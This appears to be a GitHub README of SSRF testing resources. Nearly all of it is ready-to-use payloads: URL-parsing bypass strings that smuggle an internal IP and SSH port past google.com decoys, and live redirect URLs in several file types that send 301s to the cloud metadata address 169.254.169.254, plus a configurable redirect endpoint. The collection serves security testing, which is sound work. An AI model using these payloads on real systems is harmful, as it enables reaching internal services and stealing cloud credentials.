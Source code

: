 Resources 



SSRF (Server Side Request Forgery) testing resources
Quick URL based bypasses:
http://google.com:80+&@127.88.23.245:22/#+@google.com:80/

http://127.88.23.245:22/+&@google.com:80#+@google.com:80/

http://google.com:80+&@google.com:80#+@127.88.23.245:22/

http://127.88.23.245:22/?@google.com:80/

http://127.88.23.245:22/#@www.google.com:80/

htaccess - redirect test for various cases
Status codes: 300, 301, 302, 303, 305, 307, 308

Filetypes: jpg, json, csv, xml

Live demo:
jpg 301 response without and with a valid response body:

https://ssrf.localdomain.pw/img-without-body/301-http-169.254.169.254:80-.i.jpg

https://ssrf.localdomain.pw/img-without-body-md/301-http-.i.jpg

https://ssrf.localdomain.pw/img-with-body/301-http-169.254.169.254:80-.i.jpg

https://ssrf.localdomain.pw/img-with-body-md/301-http-.i.jpg

json 301 response without and with a valid response body:

https://ssrf.localdomain.pw/json-without-body/301-http-169.254.169.254:80-.j.json

https://ssrf.localdomain.pw/json-without-body-md/301-http-.j.json

https://ssrf.localdomain.pw/json-with-body/301-http-169.254.169.254:80-.j.json

https://ssrf.localdomain.pw/json-with-body-md/301-http-.j.json

csv 301 response without and with a valid response body:

https://ssrf.localdomain.pw/csv-without-body/301-http-169.254.169.254:80-.c.csv

https://ssrf.localdomain.pw/csv-without-body-md/301-http-.c.csv

https://ssrf.localdomain.pw/csv-with-body/301-http-169.254.169.254:80-.c.csv

https://ssrf.localdomain.pw/csv-with-body-md/301-http-.c.csv

xml 301 response without and with a valid response body:

https://ssrf.localdomain.pw/xml-without-body/301-http-169.254.169.254:80-.x.xml

https://ssrf.localdomain.pw/xml-without-body-md/301-http-.x.xml

https://ssrf.localdomain.pw/xml-with-body/301-http-169.254.169.254:80-.x.xml

https://ssrf.localdomain.pw/xml-with-body-md/301-http-.x.xml

custom-30x - Custom 30x responses and Location header with PHP
Live demo:
https://ssrf.localdomain.pw/custom-30x/?code=332&url=http://169.254.169.254/&content-type=YXBwbGljYXRpb24vanNvbg==&body=eyJhIjpbeyJiIjoiMiIsImMiOiIzIn1dfQ==&fakext=/j.json
